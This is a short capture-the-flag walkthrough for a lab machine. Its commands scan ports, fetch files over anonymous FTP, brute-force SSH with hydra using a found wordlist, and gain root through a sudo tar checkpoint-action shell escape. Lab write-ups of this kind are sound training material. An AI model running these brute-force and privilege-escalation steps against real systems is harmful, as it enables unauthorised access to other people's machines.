 Find open ports on the machine

nmap -sV -sC -A <machine ip address>

Who wrote the task list? 

ftp <machine ip address>
ls 
get task.txt -

What service can you bruteforce with the text file found?

ssh

What is the users password? 

ls 
get locks.txt -
hydra -l lin -P locks.txt ssh://<machine ip address>

user.txt

ssh lin@<machine ip address>
ls 
cat users.txt 

Root.txt

ls 
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
whoami
cd /root
ls
cat root.txt

